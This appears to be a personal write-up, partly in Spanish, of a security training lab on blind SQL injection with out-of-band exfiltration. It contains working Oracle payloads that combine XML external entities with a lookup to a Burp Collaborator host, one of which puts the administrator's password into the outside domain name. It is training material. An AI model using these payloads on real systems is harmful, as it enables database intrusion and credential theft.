 ## Lab: Blind SQL injection with out-of-band data exfiltration
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Es un ejercicio como los de antes. Es más podemos usar sus columnas, veremos como vemos la solución en el burpsuite dependiendo del número de solicitudes, entiendo que tendrá pocas palabras.

1. saber la tecnología de base de datos y si funciona el injection

```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--
```
![](assets/2022-07-09-20-31-37.png)

Vemos que funciona por lo cual es oracle

2. Vamos a ver el tamaño

' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username='administrator')||'.heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--

si en el select le inyectamos 
select password from users where username='administrator'

![](assets/2022-07-09-20-44-43.png)

oqoyckz7kjkegmb2kxl6.heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net.

La primera parte antes del . es la solución al select que enviamos

![](asset/2022-07-09-20-47-34.png)

